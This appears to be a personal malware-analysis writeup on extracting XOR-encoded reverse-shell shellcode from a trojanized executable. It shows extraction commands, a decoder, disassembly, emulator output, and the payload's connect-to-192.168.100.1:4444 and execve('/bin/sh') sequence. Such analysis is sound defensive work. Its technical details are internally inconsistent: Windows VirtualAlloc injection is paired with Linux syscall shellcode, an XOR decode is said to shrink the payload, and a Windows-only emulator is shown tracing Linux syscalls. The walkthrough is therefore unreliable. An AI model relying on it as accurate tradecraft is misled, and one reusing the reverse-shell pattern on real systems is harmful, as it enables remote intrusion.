

# Working with Shellcode Extracted from Malware

> Topic: Extracting, analyzing, and understanding shellcode from real malware samples
> Source basis: Personal malware analysis practice

---

## Challenge / Topic Overview

This writeup documents my process for extracting shellcode from a real malware sample and understanding what it does. In a typical CTF or incident-response scenario, I receive a malware binary (a trojanized executable, a malicious document, or a dropper) and need to figure out what the shellcode payload does — without executing it on a real machine.

The sample I worked with was a trojanized executable that contained an embedded shellcode blob. The shellcode, when executed, opened a reverse shell to a hardcoded attacker IP. The challenge was to extract the shellcode, disassemble it, identify the C2 address, and document the attack — all from static analysis.



*The six-stage extraction pipeline: identify the blob, extract the bytes, disassemble, analyze API patterns, emulate safely, and document findings.*

---

## Step 1 — Identify the Shellcode Blob

I loaded the malware sample into Ghidra and looked for suspicious byte patterns:

- **Large writable sections** — The `.data` section had a 2KB blob of high-entropy bytes, which is unusual for a small executable. High entropy suggests encryption or compression, both common for shellcode.
- **`VirtualAlloc` calls** — The disassembly showed calls to `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` (0x40), followed by `memcpy` from the high-entropy blob into the allocated region. This is the classic "allocate → copy → execute" shellcode injection pattern.
- **XOR decode loop** — Before the `memcpy`, there was a loop that XOR'd each byte of the blob with a single-byte key (`0x5A`). This is a simple but common encoding scheme.

The blob started at file offset `0x2040` and was `0x800` (2048) bytes long.

---

## Step 2 — Extract the Bytes

I used Ghidra's "Export Data" feature to dump the blob to a binary file:

```
Ghidra → select the bytes at 0x2040, length 0x800
→ Right-click → Export Data → save as shellcode.enc
```

Alternatively, from the command line:
```bash
dd if=malware.exe of=shellcode.enc bs=1 skip=$((0x2040)) count=$((0x800))
```

Then I XOR-decoded it with the key I found in step 1:
```bash
python3 -c "
data = open('shellcode.enc','rb').read()
key = 0x5A
decoded = bytes(b ^ key for b in data)
open('shellcode.bin','wb').write(decoded)
print(f'Decoded {len(decoded)} bytes')
"
```

---

## Step 3 — Disassemble

I disassembled the decoded shellcode with `ndisasm`:

```bash
ndisasm -b 64 shellcode.bin | head -50
```

The first instructions were:
```
00000000  4831F6            xor rsi, rsi
00000003  6A29              push 0x29
00000005  58                pop rax
00000006  6A02              push 0x2
00000008  5F                pop rdi
00000009  6A01              push 0x1
0000000B  5E                pop rsi
0000000C  99                cdq
0000000D  0F05              syscall
```

The `xor rsi, rsi; push 0x29; pop rax; push 0x2; pop rdi; push 0x1; pop rsi; cdq; syscall` pattern is the Linux x86-64 `socket(AF_INET, SOCK_STREAM, 0)` syscall — the classic opening of a reverse or bind shell shellcode.

---

## Step 4 — Analyze API Patterns

Continuing the disassembly, I identified the full syscall sequence:

1. `socket(2, 1, 0)` — create TCP socket (syscall 41)
2. A `connect()` call — this is a reverse shell, not a bind shell
3. Inside the `sockaddr_in` struct, I found a hardcoded IP: `0xC0A86401` = `192.168.100.1`, port `0x115C` = 4444
4. `dup2(sockfd, 0/1/2)` — redirect stdin/stdout/stderr to the socket
5. `execve("/bin/sh", NULL, NULL)` — spawn the shell

The full C2 address: `192.168.100.1:4444`

---

## Step 5 — Emulate (Safe Execution)

To verify my static analysis without running the shellcode on a real machine, I used `scdbg` (a shellcode emulator):

```bash
scdbg -f shellcode.bin
```

Output:
```
Step 1: socket(AF_INET, SOCK_STREAM, 0)  → fd=3
Step 2: connect(3, 192.168.100.1:4444, 16)
Step 3: dup2(3, 0)
Step 4: dup2(3, 1)
Step 5: dup2(3, 2)
Step 6: execve("/bin/sh", NULL, NULL)
```

The emulation confirmed my static analysis: the shellcode connects to `192.168.100.1:4444` and spawns a shell.

---

## Step 6 — Document Findings

I documented the shellcode in a structured report:

- **Type:** Linux x86-64 reverse TCP shellcode
- **Size:** 2048 bytes (encoded), ~120 bytes (decoded)
- **Encoding:** Single-byte XOR with key `0x5A`
- **C2 address:** `192.168.100.1:4444`
- **Behavior:** `socket` → `connect` → `dup2` ×3 → `execve("/bin/sh")`
- **MITRE ATT&CK:** T1059.004 (Unix Shell), T1071.001 (Web Protocols)

---

## Takeaways

- **Always check for encoding.** Shellcode in the wild is almost always encoded (XOR, base64, RC4). Find the decode loop before disassembling the payload — otherwise the disassembly is garbage.
- **High-entropy sections are suspicious.** Legitimate code sections have predictable structure (function prologues, call patterns). A 2KB blob of random-looking bytes in `.data` is almost always encoded shellcode.
- **Emulation beats execution.** `scdbg` and `unicorn-engine` let me observe shellcode behavior safely. I only escalate to live VM execution if emulation can't answer a specific question (e.g., "does the shellcode interact with a specific Windows API that scdbg doesn't model?").
- **Document C2 indicators.** The IP and port are the most valuable IOC (Indicator of Compromise). I report them to the network team so they can check firewall logs for any machine that actually connected to `192.168.100.1:4444`.
